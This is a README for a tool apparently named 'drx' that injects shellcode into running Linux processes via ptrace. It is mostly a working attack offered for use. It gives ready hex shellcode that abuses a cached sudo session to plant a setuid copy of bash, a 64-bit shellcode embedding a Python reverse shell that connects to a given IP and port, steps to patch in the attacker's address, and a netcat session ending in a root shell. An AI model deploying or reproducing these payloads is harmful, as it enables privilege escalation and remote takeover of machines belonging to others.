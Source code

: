 # drx_ptrace_shellcode_injector
drx ptrace shellcode injector

## How to compile

```
gcc -o drx drx.c
```

## How to use

You can inject some shellcodes:

### Default builtin hello world shellcode

./drx PID

```
./drx 4940
```

### bash suid local privilege escalation via ptrace misconfiguration

Based from: https://github.com/David-Reguera-Garcia-Dreg/ptrace_misconfiguration_local_privilege_escalation

Execute: /bin/sh -c "/bin/echo | /usr/bin/sudo -S cp /bin/bash /tmp >/dev/null 2>&1 && echo | /usr/bin/sudo -S /usr/bin/chmod +s /tmp/bash >/dev/null 2>&1`"

For a 32 bit process:
```
./drx PID "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xb8\x02\x00\x00\x00\xcd\x80\x83\xf8\x00\x74\x2e\x6a\x00\x6a\x00\x6a\x00\x6a\x00\x6a\x00\x6a\x00\x89\xc3\xb9\x00\x00\x00\x00\xba\x00\x00\x00\x00\xbe\x00\x00\x00\x00\xbf\x00\x00\x00\x00\xb8\x72\x00\x00\x00\xcd\x80\xe9\xbd\x00\x00\x00\x6a\x00\xe8\x86\x00\x00\x00\x2f\x62\x69\x6e\x2f\x65\x63\x68\x6f\x20\x7c\x20\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x73\x75\x64\x6f\x20\x2d\x53\x20\x63\x70\x20\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x20\x2f\x74\x6d\x70\x20\x3e\x2f\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x20\x32\x3e\x26\x31\x20\x26\x26\x20\x65\x63\x68\x6f\x20\x7c\x20\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x73\x75\x64\x6f\x20\x2d\x53\x20\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x63\x68\x6d\x6f\x64\x20\x2b\x73\x20\x2f\x74\x6d\x70\x2f\x62\x61\x73\x68\x20\x3e\x2f\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x20\x32\x3e\x26\x31\x00\xe8\x03\x00\x00\x00\x2d\x63\x00\xe8\x08\x00\x00\x00\x2f\x62\x69\x6e\x2f\x73\x68\x00\x8d\x0c\x24\x8b\x1c\x24\x31\xd2\xb8\x0b\x00\x00\x00\xcd\x80\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
```

For a 64 bit process:
```
./drx PID "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xb8\x39\x00\x00\x00\x0f\x05\x48\x83\xf8\x00\x74\x25\x48\x89\xc7\xbe\x00\x00\x00\x00\xba\x00\x00\x00\x00\x41\xba\x00\x00\x00\x00\x41\xb8\x00\x00\x00\x00\xb8\x3d\x00\x00\x00\x0f\x05\xe9\xc5\x00\x00\x00\x6a\x00\xe8\x86\x00\x00\x00\x2f\x62\x69\x6e\x2f\x65\x63\x68\x6f\x20\x7c\x20\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x73\x75\x64\x6f\x20\x2d\x53\x20\x63\x70\x20\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x20\x2f\x74\x6d\x70\x20\x3e\x2f\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x20\x32\x3e\x26\x31\x20\x26\x26\x20\x65\x63\x68\x6f\x20\x7c\x20\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x73\x75\x64\x6f\x20\x2d\x53\x20\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x63\x68\x6d\x6f\x64\x20\x2b\x73\x20\x2f\x74\x6d\x70\x2f\x62\x61\x73\x68\x20\x3e\x2f\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x20\x32\x3e\x26\x31\x00\xe8\x03\x00\x00\x00\x2d\x63\x00\x48\x8d\x05\x21\x00\x00\x00\x50\x48\x31\xd2\x48\x89\xe6\x48\x8d\x3d\x13\x00\x00\x00\xb8\x3b\x00\x00\x00\x0f\x05\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\x0f\x05\x2f\x62\x69\x6e\x2f\x73\x68\x00\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
```

### python reverse shell detached background: local privilege escalation via ptrace misconfiguration

https://github.com/David-Reguera-Garcia-Dreg/python_reverse_shell_detached_background/

Steps for **64 bit process**:

Generate IP str, for ex 51.195.45.136
```
export IP_ADDR=51.195.45.136
xxd -p <<< `printf '%02x' ${IP_ADDR//./ }`  | sed 's/.$//' | sed 's/.$//' | sed 's/\(..\)/\\\\x&/g; s/, $//;'
```
result: \\x33\\x33\\x43\\x33\\x32\\x44\\x38\\x38

Generate PORT str, for ex 6868
```
xxd -p <<< 6868 | sed 's/.$//' | sed 's/.$//' | sed 's/\(..\)/\\\\x&/g; s/, $//;'
```
result: \\x36\\x38\\x36\\x38

Replace in this command the **IP_HEX** and **PORT_HEX** with the PORT STR & IP STR output:

echo -n "\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\xb8\\x39\\x00\\x00\\x00\\x0f\\x05\\x48\\x83\\xf8\\x00\\x74\\x25\\x48\\x89\\xc7\\xbe\\x00\\x00\\x00\\x00\\xba\\x00\\x00\\x00\\x00\\x41\\xba\\x00\\x00\\x00\\x00\\x41\\xb8\\x00\\x00\\x00\\x00\\xb8\\x3d\\x00\\x00\\x00\\x0f\\x05\\xe9\\x5f\\x02\\x00\\x00\\x6a\\x00\\xe8\\x0d\\x02\\x00\\x00\\x65\\x78\\x65\\x63\\x28\\x22\\x22\\x22\\x0a\\x69\\x6d\\x70\\x6f\\x72\\x74\\x20\\x73\\x6f\\x63\\x6b\\x65\\x74\\x2c\\x73\\x75\\x62\\x70\\x72\\x6f\\x63\\x65\\x73\\x73\\x2c\\x6f\\x73\\x2c\\x73\\x79\\x73\\x0a\\x0a\\x70\\x69\\x64\\x72\\x67\\x20\\x3d\\x20\\x6f\\x73\\x2e\\x66\\x6f\\x72\\x6b\\x28\\x29\\x0a\\x69\\x66\\x20\\x70\\x69\\x64\\x72\\x67\\x20\\x3e\\x20\\x30\\x3a\\x0a\\x20\\x20\\x20\\x20\\x20\\x20\\x20\\x20\\x73\\x79\\x73\\x2e\\x65\\x78\\x69\\x74\\x28\\x30\\x29\\x0a\\x0a\\x6f\\x73\\x2e\\x63\\x68\\x64\\x69\\x72\\x28\\x22\\x2f\\x22\\x29\\x0a\\x0a\\x6f\\x73\\x2e\\x73\\x65\\x74\\x73\\x69\\x64\\x28\\x29\\x0a\\x0a\\x6f\\x73\\x2e\\x75\\x6d\\x61\\x73\\x6b\\x28\\x30\\x29\\x0a\\x0a\\x64\\x72\\x67\\x70\\x69\\x64\\x20\\x3d\\x20\\x6f\\x73\\x2e\\x66\\x6f\\x72\\x6b\\x28\\x29\\x0a\\x69\\x66\\x20\\x64\\x72\\x67\\x70\\x69\\x64\\x20\\x3e\\x20\\x30\\x3a\\x0a\\x20\\x20\\x20\\x20\\x20\\x20\\x20\\x20\\x73\\x79\\x73\\x2e\\x65\\x78\\x69\\x74\\x28\\x30\\x29\\x0a\\x0a\\x73\\x79\\x73\\x2e\\x73\\x74\\x64\\x6f\\x75\\x74\\x2e\\x66\\x6c\\x75\\x73\\x68\\x28\\x29\\x0a\\x0a\\x73\\x79\\x73\\x2e\\x73\\x74\\x64\\x65\\x72\\x72\\x2e\\x66\\x6c\\x75\\x73\\x68\\x28\\x29\\x0a\\x0a\\x66\\x64\\x72\\x65\\x67\\x20\\x3d\\x20\\x6f\\x70\\x65\\x6e\\x28\\x22\\x2f\\x64\\x65\\x76\\x2f\\x6e\\x75\\x6c\\x6c\\x22\\x2c\\x20\\x22\\x77\\x22\\x29\\x0a\\x0a\\x73\\x79\\x73\\x2e\\x73\\x74\\x64\\x6f\\x75\\x74\\x20\\x3d\\x20\\x66\\x64\\x72\\x65\\x67\\x0a\\x0a\\x73\\x79\\x73\\x2e\\x73\\x74\\x64\\x65\\x72\\x72\\x20\\x3d\\x20\\x66\\x64\\x72\\x65\\x67\\x0a\\x0a\\x73\\x64\\x72\\x65\\x67\\x73\\x3d\\x73\\x6f\\x63\\x6b\\x65\\x74\\x2e\\x73\\x6f\\x63\\x6b\\x65\\x74\\x28\\x73\\x6f\\x63\\x6b\\x65\\x74\\x2e\\x41\\x46\\x5f\\x49\\x4e\\x45\\x54\\x2c\\x73\\x6f\\x63\\x6b\\x65\\x74\\x2e\\x53\\x4f\\x43\\x4b\\x5f\\x53\\x54\\x52\\x45\\x41\\x4d\\x29\\x0a\\x0a\\x73\\x64\\x72\\x65\\x67\\x73\\x2e\\x63\\x6f\\x6e\\x6e\\x65\\x63\\x74\\x28\\x28\\x73\\x74\\x72\\x28\\x30\\x78\\x37\\x66\\x30\\x30\\x30\\x30\\x30\\x31\\x29\\x2c\\x39\\x39\\x39\\x39\\x29\\x29\\x0a\\x0a\\x6f\\x73\\x2e\\x64\\x75\\x70\\x32\\x28\\x73\\x64\\x72\\x65\\x67\\x73\\x2e\\x66\\x69\\x6c\\x65\\x6e\\x6f\\x28\\x29\\x2c\\x30\\x29\\x0a\\x0a\\x6f\\x73\\x2e\\x64\\x75\\x70\\x32\\x28\\x73\\x64\\x72\\x65\\x67\\x73\\x2e\\x66\\x69\\x6c\\x65\\x6e\\x6f\\x28\\x29\\x2c\\x31\\x29\\x0a\\x0a\\x6f\\x73\\x2e\\x64\\x75\\x70\\x32\\x28\\x73\\x64\\x72\\x65\\x67\\x73\\x2e\\x66\\x69\\x6c\\x65\\x6e\\x6f\\x28\\x29\\x2c\\x32\\x29\\x0a\\x0a\\x70\\x3d\\x73\\x75\\x62\\x70\\x72\\x6f\\x63\\x65\\x73\\x73\\x2e\\x63\\x61\\x6c\\x6c\\x28\\x5b\\x22\\x2f\\x62\\x69\\x6e\\x2f\\x73\\x68\\x22\\x2c\\x22\\x2d\\x69\\x22\\x5d\\x29\\x0a\\x22\\x22\\x22\\x29\\x00\\xe8\\x03\\x00\\x00\\x00\\x2d\\x63\\x00\\xe8\\x0c\\x00\\x00\\x00\\x2f\\x62\\x69\\x6e\\x2f\\x70\\x79\\x74\\x68\\x6f\\x6e\\x00\\x48\\x8d\\x05\\x21\\x00\\x00\\x00\\x50\\x48\\x31\\xd2\\x48\\x89\\xe6\\x48\\x8d\\x3d\\x13\\x00\\x00\\x00\\xb8\\x3b\\x00\\x00\\x00\\x0f\\x05\\xb8\\x3c\\x00\\x00\\x00\\xbb\\x00\\x00\\x00\\x00\\x0f\\x05\\x2f\\x62\\x69\\x6e\\x2f\\x73\\x75\\x64\\x6f\\x00\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90" | sed 's/\\x39\\x39\\x39\\x39/**PORT_HEX**/g' | sed 's/\\x37\\x66\\x30\\x30\\x30\\x30\\x30\\x31/**IP_HEX**/g'

Example of command:

```
echo -n "\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\xb8\\x39\\x00\\x00\\x00\\x0f\\x05\\x48\\x83\\xf8\\x00\\x74\\x25\\x48\\x89\\xc7\\xbe\\x00\\x00\\x00\\x00\\xba\\x00\\x00\\x00\\x00\\x41\\xba\\x00\\x00\\x00\\x00\\x41\\xb8\\x00\\x00\\x00\\x00\\xb8\\x3d\\x00\\x00\\x00\\x0f\\x05\\xe9\\x5f\\x02\\x00\\x00\\x6a\\x00\\xe8\\x0d\\x02\\x00\\x00\\x65\\x78\\x65\\x63\\x28\\x22\\x22\\x22\\x0a\\x69\\x6d\\x70\\x6f\\x72\\x74\\x20\\x73\\x6f\\x63\\x6b\\x65\\x74\\x2c\\x73\\x75\\x62\\x70\\x72\\x6f\\x63\\x65\\x73\\x73\\x2c\\x6f\\x73\\x2c\\x73\\x79\\x73\\x0a\\x0a\\x70\\x69\\x64\\x72\\x67\\x20\\x3d\\x20\\x6f\\x73\\x2e\\x66\\x6f\\x72\\x6b\\x28\\x29\\x0a\\x69\\x66\\x20\\x70\\x69\\x64\\x72\\x67\\x20\\x3e\\x20\\x30\\x3a\\x0a\\x20\\x20\\x20\\x20\\x20\\x20\\x20\\x20\\x73\\x79\\x73\\x2e\\x65\\x78\\x69\\x74\\x28\\x30\\x29\\x0a\\x0a\\x6f\\x73\\x2e\\x63\\x68\\x64\\x69\\x72\\x28\\x22\\x2f\\x22\\x29\\x0a\\x0a\\x6f\\x73\\x2e\\x73\\x65\\x74\\x73\\x69\\x64\\x28\\x29\\x0a\\x0a\\x6f\\x73\\x2e\\x75\\x6d\\x61\\x73\\x6b\\x28\\x30\\x29\\x0a\\x0a\\x64\\x72\\x67\\x70\\x69\\x64\\x20\\x3d\\x20\\x6f\\x73\\x2e\\x66\\x6f\\x72\\x6b\\x28\\x29\\x0a\\x69\\x66\\x20\\x64\\x72\\x67\\x70\\x69\\x64\\x20\\x3e\\x20\\x30\\x3a\\x0a\\x20\\x20\\x20\\x20\\x20\\x20\\x20\\x20\\x73\\x79\\x73\\x2e\\x65\\x78\\x69\\x74\\x28\\x30\\x29\\x0a\\x0a\\x73\\x79\\x73\\x2e\\x73\\x74\\x64\\x6f\\x75\\x74\\x2e\\x66\\x6c\\x75\\x73\\x68\\x28\\x29\\x0a\\x0a\\x73\\x79\\x73\\x2e\\x73\\x74\\x64\\x65\\x72\\x72\\x2e\\x66\\x6c\\x75\\x73\\x68\\x28\\x29\\x0a\\x0a\\x66\\x64\\x72\\x65\\x67\\x20\\x3d\\x20\\x6f\\x70\\x65\\x6e\\x28\\x22\\x2f\\x64\\x65\\x76\\x2f\\x6e\\x75\\x6c\\x6c\\x22\\x2c\\x20\\x22\\x77\\x22\\x29\\x0a\\x0a\\x73\\x79\\x73\\x2e\\x73\\x74\\x64\\x6f\\x75\\x74\\x20\\x3d\\x20\\x66\\x64\\x72\\x65\\x67\\x0a\\x0a\\x73\\x79\\x73\\x2e\\x73\\x74\\x64\\x65\\x72\\x72\\x20\\x3d\\x20\\x66\\x64\\x72\\x65\\x67\\x0a\\x0a\\x73\\x64\\x72\\x65\\x67\\x73\\x3d\\x73\\x6f\\x63\\x6b\\x65\\x74\\x2e\\x73\\x6f\\x63\\x6b\\x65\\x74\\x28\\x73\\x6f\\x63\\x6b\\x65\\x74\\x2e\\x41\\x46\\x5f\\x49\\x4e\\x45\\x54\\x2c\\x73\\x6f\\x63\\x6b\\x65\\x74\\x2e\\x53\\x4f\\x43\\x4b\\x5f\\x53\\x54\\x52\\x45\\x41\\x4d\\x29\\x0a\\x0a\\x73\\x64\\x72\\x65\\x67\\x73\\x2e\\x63\\x6f\\x6e\\x6e\\x65\\x63\\x74\\x28\\x28\\x73\\x74\\x72\\x28\\x30\\x78\\x37\\x66\\x30\\x30\\x30\\x30\\x30\\x31\\x29\\x2c\\x39\\x39\\x39\\x39\\x29\\x29\\x0a\\x0a\\x6f\\x73\\x2e\\x64\\x75\\x70\\x32\\x28\\x73\\x64\\x72\\x65\\x67\\x73\\x2e\\x66\\x69\\x6c\\x65\\x6e\\x6f\\x28\\x29\\x2c\\x30\\x29\\x0a\\x0a\\x6f\\x73\\x2e\\x64\\x75\\x70\\x32\\x28\\x73\\x64\\x72\\x65\\x67\\x73\\x2e\\x66\\x69\\x6c\\x65\\x6e\\x6f\\x28\\x29\\x2c\\x31\\x29\\x0a\\x0a\\x6f\\x73\\x2e\\x64\\x75\\x70\\x32\\x28\\x73\\x64\\x72\\x65\\x67\\x73\\x2e\\x66\\x69\\x6c\\x65\\x6e\\x6f\\x28\\x29\\x2c\\x32\\x29\\x0a\\x0a\\x70\\x3d\\x73\\x75\\x62\\x70\\x72\\x6f\\x63\\x65\\x73\\x73\\x2e\\x63\\x61\\x6c\\x6c\\x28\\x5b\\x22\\x2f\\x62\\x69\\x6e\\x2f\\x73\\x68\\x22\\x2c\\x22\\x2d\\x69\\x22\\x5d\\x29\\x0a\\x22\\x22\\x22\\x29\\x00\\xe8\\x03\\x00\\x00\\x00\\x2d\\x63\\x00\\xe8\\x0c\\x00\\x00\\x00\\x2f\\x62\\x69\\x6e\\x2f\\x70\\x79\\x74\\x68\\x6f\\x6e\\x00\\x48\\x8d\\x05\\x21\\x00\\x00\\x00\\x50\\x48\\x31\\xd2\\x48\\x89\\xe6\\x48\\x8d\\x3d\\x13\\x00\\x00\\x00\\xb8\\x3b\\x00\\x00\\x00\\x0f\\x05\\xb8\\x3c\\x00\\x00\\x00\\xbb\\x00\\x00\\x00\\x00\\x0f\\x05\\x2f\\x62\\x69\\x6e\\x2f\\x73\\x75\\x64\\x6f\\x00\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90" | sed 's/\\x39\\x39\\x39\\x39/\\x36\\x38\\x36\\x38/g' | sed 's/\\x37\\x66\\x30\\x30\\x30\\x30\\x30\\x31/\\x33\\x33\\x43\\x33\\x32\\x44\\x38\\x38/g'
```

The output is the generated shellcode, now execute drx with target PID and the shellcode generated, ex with 6978 PID:

```
./drx 6978 "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xb8\x39\x00\x00\x00\x0f\x05\x48\x83\xf8\x00\x74\x25\x48\x89\xc7\xbe\x00\x00\x00\x00\xba\x00\x00\x00\x00\x41\xba\x00\x00\x00\x00\x41\xb8\x00\x00\x00\x00\xb8\x3d\x00\x00\x00\x0f\x05\xe9\x5f\x02\x00\x00\x6a\x00\xe8\x0d\x02\x00\x00\x65\x78\x65\x63\x28\x22\x22\x22\x0a\x69\x6d\x70\x6f\x72\x74\x20\x73\x6f\x63\x6b\x65\x74\x2c\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2c\x6f\x73\x2c\x73\x79\x73\x0a\x0a\x70\x69\x64\x72\x67\x20\x3d\x20\x6f\x73\x2e\x66\x6f\x72\x6b\x28\x29\x0a\x69\x66\x20\x70\x69\x64\x72\x67\x20\x3e\x20\x30\x3a\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x73\x79\x73\x2e\x65\x78\x69\x74\x28\x30\x29\x0a\x0a\x6f\x73\x2e\x63\x68\x64\x69\x72\x28\x22\x2f\x22\x29\x0a\x0a\x6f\x73\x2e\x73\x65\x74\x73\x69\x64\x28\x29\x0a\x0a\x6f\x73\x2e\x75\x6d\x61\x73\x6b\x28\x30\x29\x0a\x0a\x64\x72\x67\x70\x69\x64\x20\x3d\x20\x6f\x73\x2e\x66\x6f\x72\x6b\x28\x29\x0a\x69\x66\x20\x64\x72\x67\x70\x69\x64\x20\x3e\x20\x30\x3a\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x73\x79\x73\x2e\x65\x78\x69\x74\x28\x30\x29\x0a\x0a\x73\x79\x73\x2e\x73\x74\x64\x6f\x75\x74\x2e\x66\x6c\x75\x73\x68\x28\x29\x0a\x0a\x73\x79\x73\x2e\x73\x74\x64\x65\x72\x72\x2e\x66\x6c\x75\x73\x68\x28\x29\x0a\x0a\x66\x64\x72\x65\x67\x20\x3d\x20\x6f\x70\x65\x6e\x28\x22\x2f\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x22\x2c\x20\x22\x77\x22\x29\x0a\x0a\x73\x79\x73\x2e\x73\x74\x64\x6f\x75\x74\x20\x3d\x20\x66\x64\x72\x65\x67\x0a\x0a\x73\x79\x73\x2e\x73\x74\x64\x65\x72\x72\x20\x3d\x20\x66\x64\x72\x65\x67\x0a\x0a\x73\x64\x72\x65\x67\x73\x3d\x73\x6f\x63\x6b\x65\x74\x2e\x73\x6f\x63\x6b\x65\x74\x28\x73\x6f\x63\x6b\x65\x74\x2e\x41\x46\x5f\x49\x4e\x45\x54\x2c\x73\x6f\x63\x6b\x65\x74\x2e\x53\x4f\x43\x4b\x5f\x53\x54\x52\x45\x41\x4d\x29\x0a\x0a\x73\x64\x72\x65\x67\x73\x2e\x63\x6f\x6e\x6e\x65\x63\x74\x28\x28\x73\x74\x72\x28\x30\x78\x33\x33\x43\x33\x32\x44\x38\x38\x29\x2c\x36\x38\x36\x38\x29\x29\x0a\x0a\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x64\x72\x65\x67\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x30\x29\x0a\x0a\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x64\x72\x65\x67\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x31\x29\x0a\x0a\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x64\x72\x65\x67\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x32\x29\x0a\x0a\x70\x3d\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2e\x63\x61\x6c\x6c\x28\x5b\x22\x2f\x62\x69\x6e\x2f\x73\x68\x22\x2c\x22\x2d\x69\x22\x5d\x29\x0a\x22\x22\x22\x29\x00\xe8\x03\x00\x00\x00\x2d\x63\x00\xe8\x0c\x00\x00\x00\x2f\x62\x69\x6e\x2f\x70\x79\x74\x68\x6f\x6e\x00\x48\x8d\x05\x21\x00\x00\x00\x50\x48\x31\xd2\x48\x89\xe6\x48\x8d\x3d\x13\x00\x00\x00\xb8\x3b\x00\x00\x00\x0f\x05\xb8\x3c\x00\x00\x00\xbb\x00\x00\x00\x00\x0f\x05\x2f\x62\x69\x6e\x2f\x73\x75\x64\x6f\x00\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
```

And done, you get a root shell from a sudo shell user

```
dreg@51.195.45.136:~# nc -lvp 6868
listening on [any] 6868 ...
connect to [51.195.45.136] from fr33project.org [51.195.45.136] 38672
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
#
```



